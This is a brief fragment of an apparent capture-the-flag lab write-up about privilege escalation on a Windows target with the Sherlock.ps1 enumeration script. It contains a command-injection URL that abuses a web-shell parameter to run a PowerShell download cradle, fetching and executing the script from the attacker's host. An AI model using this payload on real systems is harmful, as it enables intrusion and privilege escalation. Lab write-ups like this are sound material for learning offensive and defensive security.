



Sherlock.ps1
Shecklock is a great privilege escalatation tool we can showcase on this writeup as well,
don't forget to add at the end of our Sherlock.ps1 script!
to download and run it, run the following
http://10.10.10.9/steve.php?fexec=echo IEX(New-Object Net.Webclient).downloadString('http://10.10.14.62:8000/Sherlock.ps1') | powershell -noprofile -



Sherlock scans for and outputs a bunch of vulnerabilities we can utilize to escalate our privileges